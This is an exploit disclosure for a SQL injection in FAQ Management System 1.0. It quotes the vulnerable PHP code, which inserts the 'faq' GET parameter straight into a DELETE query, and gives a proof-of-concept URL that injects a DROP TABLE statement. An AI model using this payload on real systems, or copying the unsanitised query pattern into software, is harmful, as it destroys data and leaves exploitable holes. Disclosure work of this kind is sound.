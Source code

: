 ```yaml
---
title: FAQ Management System 1.0 SQL Injection
published: true
---
```


- Exploit Title: FAQ Management System - SQL Injection
- Google Dork: N/A
- Application: FAQ Management System
- Date: 25.02.2024
- Bugs: SQL Injection
- Exploit Author: SoSPiro
- Vendor Homepage: https://www.sourcecodester.com/
- Software Link: https://www.sourcecodester.com/php/17175/faq-management-system-using-php-and-mysql-source-code.html
- Version: 1.0
- Tested on: Windows 10 64 bit Wampserver
- CVE : N/A

***

### Vulnerability Description:

The provided code is vulnerable to SQL injection. The vulnerability arises from directly using user input `($_GET['faq'])` in the SQL query without proper validation or sanitization. An attacker can manipulate the 'faq' parameter to inject malicious SQL code, leading to unintended and potentially harmful database operations.


### Proof of Concept (PoC):

An attacker can manipulate the 'faq' parameter to perform SQL injection. For example:

1. Original Request:

`http://example.com/endpoint/delete-faq.php?faq=123`

2. Malicious Request (SQL Injection):

```
http://example.com/endpoint/delete-faq.php?faq=123'; DROP TABLE tbl_faq; --
```

This would result in a query like:

```sql
DELETE FROM tbl_faq WHERE tbl_faq_id = '123'; DROP TABLE tbl_faq; --
```
Which can lead to the deletion of data or even the entire table.


[poc foto](https://i.imgur.com/1IENYFg.png)

### Vulnerable code section:

***
`endpoint/delete-faq.php`

```php
$faq = $_GET['faq'];

// ...

$query = "DELETE FROM tbl_faq WHERE tbl_faq_id = '$faq'";
```